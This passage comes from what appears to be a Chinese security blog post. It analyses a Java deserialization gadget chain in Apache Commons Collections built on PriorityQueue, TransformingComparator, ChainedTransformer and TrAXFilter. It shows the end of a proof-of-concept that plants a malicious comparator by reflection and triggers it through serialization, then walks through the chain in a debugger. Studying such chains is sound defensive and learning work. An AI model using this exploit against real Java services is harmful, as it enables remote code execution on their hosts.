             PriorityQueue priorityQueue = new PriorityQueue(2);//使用指定的初始容量创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
            priorityQueue.add(1);//添加数字1插入此优先级队列
            priorityQueue.add(1);//添加数字1插入此优先级队列
    
            Field field2=priorityQueue.getClass().getDeclaredField("comparator");//获取PriorityQueue的comparator字段
            field2.setAccessible(true);//暴力反射
            field2.set(priorityQueue,transformingComparator);//设置priorityQueue的comparator属性值为transformingComparator
    
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("test.ser"));
            outputStream.writeObject(priorityQueue);
            outputStream.close();
    
            ObjectInputStream inputStream=new ObjectInputStream(new FileInputStream("test.ser"));
            inputStream.readObject();
    
    
    
    
        }
    }
    
    

![image-20220402172430947](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220402182705513-71238793.png)

### 2.2、poc调试

在PriorityQueue的readObject打断点，发现队列内就是两个数字，进入heapify()

![image-20220402173935322](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220402182706373-1157768730.png)

因为在poc中我们没对queue字段赋值，所以queue里面就是两个数字，继续跟入siteDown()

![image-20220402174048928](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220402182706912-430182588.png)

发现x就是queue为空，与cc2此时的x为templatImpl，继续进入siftDownUsingComparator

![image-20220402174156894](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220402182707865-1262786349.png)

进入发现，通过comparator.compare(),这个comparator就是我们的恶意TransformingComparator

![image-20220402174458773](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220402182708588-1658260796.png)

进入发现TransformingComparator的compare方法里，用this.transformer调用了transform方法，此时的this.transformer是我们传入的ChainedTransformer，链式调用transform

![image-20220402174643988](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220402182709944-1129295273.png)

进入后看到第一个是ConstantTransformer，继续跟进transform方法

![image-20220402174941276](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220402182710784-1291454212.png)

返回我们一开始构造的TrAXFilter.class

![image-20220402175131054](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220402182711538-201698214.png)
